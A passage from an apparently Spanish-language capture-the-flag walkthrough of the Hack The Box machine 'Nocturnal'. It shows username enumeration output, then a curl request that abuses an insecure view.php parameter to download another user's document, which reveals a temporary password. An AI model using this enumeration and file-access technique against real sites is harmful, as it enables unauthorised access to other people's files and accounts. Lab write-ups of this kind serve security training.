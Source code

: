 ~~~ bash
=====================================================================
000000002:   200        128 L    247 W      3037 Ch     "admin"      
000000017:   200        177 L    470 W      5150 Ch     "andrew"
000000194:   200        128 L    248 W      3113 Ch     "amanda"
000002688:   200        128 L    247 W      3037 Ch     "tobias"
~~~

Hemos encontrado `3` nombres de usuario además de nosotros (`andrew`). Podemos intentar usar estos nombres de usuario para ver si accedemos a otros recursos.

Si intentamos con el usuario `amanda`, veremos lo siguiente

![image-center](/assets/images/posts/nocturnal-web-analysis-3.png)
{: .align-center}


Nos es posible descargar un archivo `privacy.odt`. Podemos abrirlo directamente con `LibreOffice` o descomprimir el archivo con el comando `unzip` y ver el contenido del documento en el archivo `xl/content.xml`

~~~ bash
curl -X POST -sL http://nocturnal.htb/view.php\?username\=amanda\&file\=privacy.odt -b 'PHPSESSID=46d7mtkbhkovf744f2nrhqu6tk' -o privacy.odt
~~~

El documento posee el siguiente mensaje, se nos señala una contraseña temporal que funciona para iniciar sesión como `amanda`

~~~ text
Dear Amanda,
Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.
The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.
Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

Yours sincerely,
Nocturnal's IT team
~~~

